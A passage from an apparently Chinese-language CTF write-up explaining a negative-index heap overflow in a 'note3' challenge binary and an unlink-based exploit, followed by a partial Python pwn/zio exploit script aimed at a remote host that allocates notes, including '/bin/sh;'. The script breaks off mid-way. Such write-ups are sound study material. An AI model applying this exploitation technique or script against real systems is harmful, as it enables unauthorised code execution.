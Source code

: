 而0x8000000000000000的值为-1,所以可以导致索引为全局结构体数组中的前一个指针。其为当前的活跃指针,如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019378bcac8b09e9fd.png)

edit的时候:id_t为-1;其对应的长度不在是size,第七个堆块的指针所以可以读很长的内容,从而覆盖后面的堆块,如下:

get_buff_4008DD(global_content_size_6020C8[id_t], (__int64)(&amp;global_cur_ptr_6020C0)[8 * (id_t + 8)], 10);

global_cur_ptr_6020C0 = global_content_size_6020C8[id_t];

在这里可以采用unlink的方式,在内容中构造假堆块,最终改写全局指针。

利用代码如下:



```
__author__ = "pxx"
from zio import *
from pwn import *
#ip = 1.192.225.129
#target = "./note3"
target = ("115.28.27.103", 9003)
def get_io(target):
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "blue")
io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
return  io 
def new_note(io, length_t, content_t):
io.read_until("option---&gt;&gt;n")
io.writeline("1")
io.read_until("content:(less than 1024)n")
io.writeline(str(length_t))
io.read_until("content:n")
io.writeline(content_t)
def delete_note(io, id_t):
io.read_until("option---&gt;&gt;n")
io.writeline("4")
io.read_until("id of the note:n")
io.writeline(str(id_t))
def edit_note(io, id_t, content_t):
io.read_until("option---&gt;&gt;n")
io.writeline("3")
io.read_until("id of the note:n")
io.writeline(str(id_t))
io.read_until("content:")
io.writeline(content_t)
def pwn(io):
new_note(io, 0x80, 'aaaaaa')
new_note(io, 0x80, 'bbbbbb')
new_note(io, 0x80, 'cccccc')
new_note(io, 0x80, 'dddddd')
new_note(io, 0x80, 'eeeeee')
new_note(io, 0x80, 'ffffff')
new_note(io, 0x80, '/bin/sh;')
target_id = 2
edit_note(io, target_id, '111111')
#useful_code --- begin
#prepare args
arch_bytes = 8
heap_buff_size = 0x80
#node1_addr = &amp;p0
node1_addr = 0x6020C8 + 0x08 * target_id
pack_fun = l64
heap_node_size = heap_buff_size + 2 * arch_bytes #0x88
```